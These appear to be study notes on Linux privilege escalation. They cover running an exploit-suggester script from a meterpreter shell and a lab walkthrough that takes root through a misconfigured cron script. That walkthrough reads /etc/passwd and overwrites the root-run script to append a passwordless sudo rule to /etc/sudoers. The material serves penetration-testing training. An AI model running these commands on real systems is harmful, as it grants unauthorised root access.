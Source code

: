 # Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Exploiting misconfigured Cron Jobs

## Understanding Cron Jobs

    Cron: A time-based service in Linux used to schedule and automate tasks.
    Cron Job: A task scheduled to run via Cron, such as backups or system upgrades.
    Crontab File: The configuration file where Cron jobs are stored.

## Privilege Escalation Using Cron Jobs

    Cron Jobs as Root: If misconfigured, Cron jobs running as "root" can be exploited for root access.

## Demo: Using Cronjob

  `whoami`
  Displays the current user’s username.

  `groups student`
  Shows the groups that the "student" user belongs to.

  `cat /etc/passwd`
  Displays the content of the /etc/passwd file, revealing user account information.

  `crontab -l`
  Lists the Cron jobs scheduled for the current user.

  `ls -al`
  Lists all files and directories in the current directory with detailed information.

  `cat message`
  Displays the content of the "message" file.

  `pwd`
  Prints the current working directory.

  `cd /`
  Changes the directory to the root (/) of the filesystem.

  `grep -rnw /usr -e "/home/student/message"`
  Recursively searches for the string "/home/student/message" in files under /usr.

  `ls -al /tmp`
  Lists all files in the /tmp directory with detailed information.

  `cat /tmp/message`
  Displays the content of the "message" file in the /tmp directory.

  `ls -al /usr/local/share/copy.sh`
  Lists detailed information about the copy.sh script.

  `cat /usr/local/share/copy.sh`
  Displays the content of the copy.sh script.

  `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' >
/usr/local/share/copy.sh`
  Creates or modifies the copy.sh script to add a command that gives the "student" user root privileges.

  `sudo -l`
  Lists the commands that the current user can run with sudo.

  `sudo su`
  Switches to the root user if allowed by sudo.

  `whoami`
  Confirms the current user, which should now be root.

  `cd /root`
  Changes the directory to the root user's home directory.

  `ls`
  Lists files in the current directory.

  `cat flag`
  Displays the content of the "flag" file.

  `crontab -l`
  Re-checks the scheduled Cron jobs to verify any changes.

